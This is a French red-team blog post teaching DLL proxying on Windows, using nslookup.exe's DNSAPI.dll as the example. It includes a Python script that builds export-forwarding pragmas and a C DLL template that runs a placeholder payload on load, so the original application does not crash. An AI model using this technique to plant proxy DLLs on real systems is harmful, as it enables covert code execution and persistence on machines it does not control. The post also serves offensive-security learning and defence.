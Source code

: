 +++
author = "Sh0ckFR"
title = "Martin et le DLL Proxying de cristal"
date = "2022-05-16"
description = "Martin et le DLL Proxying de cristal"
tags = [
    "red-team",
]
+++

Bonjour à tous et à toutes, pour faire suite à mon article [Martine à la recherche de la DLL Hijacking perdue](/pages/martine-a-la-recherche-de-la-dll-hijacking-perdue/) je vous propose aujourd'hui un article sur le DLL Proxying.

![Sh0ckFR DLL Proxying](/images/martin-dll-proxying.jpg)

Comme vous vous en doutez, le gars au centre c'est Martin et il ne savait pas trop ce qu'il lui arrivait avec ce pouvoir entre les mains, ici c'est pareil.

Vous avez pu comprendre les mécanismes du DLL Hijacking dans mon précédent post, mais je n'avais pas évoqué un point important.

Effectivement, que se passe t'il si on redirige une fonction d'un programme sans pour autant rediriger les autres fonctions de celui-ci ? vous avez 4 heures.

En vrai c'est relativement simple, ça peut crash, du moins vous pouvez bloquer l'exécution d'un programme et exécuter votre charge utile sans attendre de retour mais cela rend l'application originale inutilisable.

Dans un contexte où l'application n'est pas vraiment nécessaire pour l'utilisateur, ça fonctionne relativement bien, mais imaginez bloquer une bibliothèque importante pour un programme de l'utilisateur, votre charge utile fonctionnera mais l'utilisateur ne pourra plus utiliser son application originale.

Mais alors comment faire ?

La réponse est simple, rediriger TOUTES les fonctions du programme original (donc faire un DLL hijacking sur toutes les fonctions connues).

Reprenons l'exemple dans le précédent post, vous aviez vu que `nslookup.exe` utilisait une librairie vulnérable au DLL Hijacking `DNSAPI.dll`, pour retrouver toutes nos fonctions il existe un programme :

http://www.nirsoft.net/utils/dllexp-x64.zip

On peut donc retrouver la table d'export via ce logiciel :

![Sh0ckFR DLL Proxying](/images/dll-proxying-1.png)

Et là magie, on retrouve notre fonction utilisée dans le précédent post `DnsQueryConfigAllocEx`

![Sh0ckFR DLL Proxying](/images/dll-proxying-2.png)

Une autre solution pour éviter d'être dépendant de notre programme `DLL Export Viewer` et d'utiliser la librairie `pefile` pour Python :

```python
import pefile

exported_functions = []
pe = pefile.PE('C:\\windows\\system32\\DNSAPI.dll')
for entry in pe.DIRECTORY_ENTRY_EXPORT.symbols:
    func = entry.name.decode('utf-8')
    exported_functions.append(f'#pragma comment(linker,"/export:{func}=proxy.{func},@{entry.ordinal}")')

exported_functions = '\n'.join(exported_functions)
print(exported_functions)
```

Ce qui donne un résultat du genre :

![Sh0ckFR DLL Proxying](/images/dll-proxying-3.png)

On voit que toutes les fonctions de DNSAPI.dll devront être redirigées vers une DLL nommée `proxy.dll`.

Il n'y a plus qu'à copier les exports pour le linker afin que nous puissons créer une DLL `DNSAPI.dll` avec toutes les fonctions attendues par la DLL originale `DNSAPI.dll` :

```c
#pragma once
#pragma comment(linker,"/export:AdaptiveTimeout_ClearInterfaceSpecificConfiguration=proxy.AdaptiveTimeout_ClearInterfaceSpecificConfiguration,@1")
#pragma comment(linker,"/export:AdaptiveTimeout_ResetAdaptiveTimeout=proxy.AdaptiveTimeout_ResetAdaptiveTimeout,@2")
#pragma comment(linker,"/export:AddRefQueryBlobEx=proxy.AddRefQueryBlobEx,@3")
#pragma comment(linker,"/export:BreakRecordsIntoBlob=proxy.BreakRecordsIntoBlob,@4")
#pragma comment(linker,"/export:Coalesce_UpdateNetVersion=proxy.Coalesce_UpdateNetVersion,@5")
#pragma comment(linker,"/export:CombineRecordsInBlob=proxy.CombineRecordsInBlob,@6")
#pragma comment(linker,"/export:DeRefQueryBlobEx=proxy.DeRefQueryBlobEx,@7")
...

int Main()
{
    // Your payload code.
}

BOOL WINAPI DllMain(HINSTANCE hinstDLL, DWORD fdwReason, LPVOID lpReserved)
{
    switch (fdwReason)
    {
    case DLL_PROCESS_ATTACH:
        Main();
        break;
    case DLL_THREAD_ATTACH:
        break;
    case DLL_THREAD_DETACH:
        break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}
```

Il suffit ensuite de renommer la DLL originale `DNSAPI.dll` en `proxy.dll` et de copier notre nouvelle librairie `DNSAPI.dll` dans le même répertoire que le programme original et vous avez donc comme résultat un DLL Proxying parfait qui ne fera pas planter l'application originale.

Bien entendu, j'ai implémenté l'automatisation du DLL Proxying dans [DLLirant](https://github.com/Sh0ckFR/DLLirant) via l'argument `--proxydll` :

```python
python3 DLLirant.py -p "C:\THEFULLPATH\VulnerableDLL.dll"
```

## Crédits

itm4n - https://itm4n.github.io/dll-proxying/
